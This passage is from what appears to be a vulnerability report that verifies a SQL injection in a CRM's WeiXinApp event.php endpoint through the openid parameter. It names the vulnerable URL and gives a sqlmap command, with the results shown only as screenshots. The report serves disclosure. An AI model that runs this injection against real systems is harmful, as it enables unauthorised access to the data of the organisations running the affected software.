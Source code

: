 <img width="2328" height="838" alt="image" src="https://github.com/user-attachments/assets/afdc97c8-6669-48d4-a1d8-1f289b483a53" />



# 4.Vulnerability verification
## The following is the target website access page

<img width="2530" height="1157" alt="image" src="https://github.com/user-attachments/assets/1e134bad-b874-4354-8744-9d05084b6531" />


## Use the sqlmap tool to detect

python sqlmap.py  -u "http://192.168.8.27:85/crm/WeiXinApp/yunzhijia/event.php?action=get_userid&applicationType=market&openid=1*"  --level 5    --dbms mysql


<img width="2210" height="1156" alt="image" src="https://github.com/user-attachments/assets/230787ff-af4b-49e3-b5bd-52fe5b293447" />

<img width="2322" height="1074" alt="image" src="https://github.com/user-attachments/assets/c6230216-907b-42d3-8aa4-605a6cb539b8" />

<img width="2446" height="963" alt="image" src="https://github.com/user-attachments/assets/9cf3cb38-dcff-4283-93d8-22b08b794e27" />


# The above is the complete content of this vulnerability. Thank you for your review and time!
